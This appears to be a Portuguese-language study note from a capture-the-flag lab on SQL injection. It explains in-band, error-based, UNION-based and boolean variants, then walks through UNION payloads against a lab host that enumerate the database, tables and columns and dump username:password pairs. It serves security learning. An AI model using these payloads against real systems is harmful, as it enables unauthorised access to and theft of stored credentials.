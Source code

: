**In-Band SQL Injection**

- É a maneira "mais fácil" de detectar e explorar uma falha de SQLi
- Se chama "In-Band" pelo usuário utilizar o mesmo meio, ou "canal/banda" para explorar a falha e visualizar os resultados dos seus testes
- Pode visualizar, extrair os dados pela própria página web utilizada pra explorar

**Error-Band SQL Injection**

- Você pode obter informações da estrutura de um banco de dados visualizando os erros reportados diretamente pela página web

**UNION-Based SQL Injection**

- Maneira de retornar diversas informações utilizando o operador UNION numa consulta com SELECT

**Boolean SQLi**

- Boolean-based SQL Injection é um tipo de ataque em que a resposta da aplicação mostra apenas dois resultados possíveis (como verdadeiro/falso, sim/não, 1/0).
Essas respostas indicam se o payload de injeção funcionou ou não.

- Mesmo parecendo limitado, é possível descobrir toda a estrutura e conteúdo do banco de dados só com essas respostas binárias.
---

**Pratice**

1. Queremos verificar a **existência de um possível SQLi**

```
https://website.thm/article?id='
```

**Exemplo de erro**

```
SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
```

2. Após verificar e comprovar que existe, como um Erro na tela, podemos tentar enumerar com o operador UNION até retornar a **quantidade exata de colunas**, por exemplo:

```
https://website.thm/article?id=0 UNION SELECT 1
```

- **...**

```
https://website.thm/article?id=0 UNION SELECT 1,2,3
```

3. Já que sabemos o número exato de colunas, temos que saber o **nome do banco de dados**

```
https://website.thm/article?id=1 UNION SELECT 1,2,database()
```

4. Diante do nome do banco de dados, agora queremos saber **quais são as tabelas** que esse banco possui:

```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

5. De posse do nome das tabelas, queremos saber **quais são as colunas** existentes nessa tabela

```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

6. Agora queremos recuperar os **valores das colunas** retornadas na consulta anterior (username, password):

```
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(username, ':', password SEPARATOR '<br>') FROM staff_users
```